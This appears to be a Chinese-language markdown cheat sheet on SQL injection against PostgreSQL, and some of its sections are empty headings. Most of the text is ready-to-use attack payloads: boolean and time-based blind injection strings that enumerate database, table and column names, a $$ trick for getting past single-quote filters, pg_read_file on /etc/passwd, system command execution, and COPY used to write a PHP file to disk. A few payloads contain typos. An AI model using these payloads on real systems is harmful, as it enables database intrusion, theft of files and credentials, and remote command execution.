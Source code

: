 ## PostgreSQL数据库的注入
### 一、联合注入


### 二、报错注入


### 三、布尔盲注
```sql
--先猜当前数据库的长度
and (select length(current_database())) between 0 and 30

--ascii猜解库名的每个字符
and (select ascii(substr(current_database(),1,1))) between 0 and 30

---猜解数据库的表的个数
and (select count(*) from pg_stat_user_tables) between 0 and 30

--猜解库里的表名的长度
and (select length(relname) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--猜解表名里面的每个字符
and (select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--接下来猜解字段名
and (select+ascii(substr(column_name,1,1)) information_schema.columns where table_name=aaa) between 0 and 30
```

### 四、时间盲注

### 五、PostgreSQL语法
#### 1、常用语法
```SQL
select CURRENT_SCHEMA()           #查看当前权限
select user                       #查看用户
select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
select pg_read_file('/etc/passwd');          #读取文件
select system('whoami');                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```
#### 2、注意点
此数据库有一个特性，使用like查询子句时，比如：
```SQL
where aaa like '%aaa%';
```
这里单引号可以使用$$代替，如:
```SQL
where aaa like $$%aaa%$$;
```
但是暂时不知道原因！**但是可以利用这一点来逃逸单引号过滤！**
#### 3、PostgreSQL数据库的一些payload合集（注意注释符号--+）
（1）简单的有回显的SQL注入不用多说，还是基本的SQL语句直接查询就可以了。
```SQL
 #简单的payload
 parameter = 2-1
 parameter = 1 and 1 = 2
 parameter = 1 or 1 = 2-1
 parameter = 1' and '1'='1#and -> or
 parameter = 1' and '1'='2#and -> or
 ```
或者引号区分法（适用于字符串）
```SQL
 parameter = 1    #Success
 parameter = 1'   #Failed
 parameter = 1''  #Success
 ```
（2）一般的基于时间的盲注，可以参考下面的办法：
```SQL
 #postgresql 的几个简单判断payload：
 parameter=1;select pg_sleep(5)
 parameter=1';select pg_sleep(5)
 parameter=1');select pg_sleep(5)
 parameter=1);select pg_sleep(5)
 parameter=1));select pg_sleep(5)
 parameter=select pg_sleep(5)
 ```
盲注的逐位猜解
```SQL
 SELECT CASE WHEN (COALESCE(ASCII(SUBSTR(({current_user}),1,1)),0) > 100) THEN pg_sleep(14) ELSE pg_sleep(0) END LIMIT 1--+
 ```
（3）常见的函数查看一些基本信息：
```SQL
 SELECT version()     #查看版本信息
 SELECT user;        #查看用户
 SELECT current_user;
 SELECT session_user;
 SELECT usename FROM pg_user;     #这里是usename不是username
 SELECT getpgusername();
 SELECT current_database()       #查看当前数据库
 ```
（4）postgresql下的if
```SQL
 #mysql的
 if(expr1,result1,result2);
 #如果expr1满足，result1，否则result2
 
 #对于postgresql
 select case when(expr1) then result1 else result2 end;
 
 #举个例子
 select casr when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
```
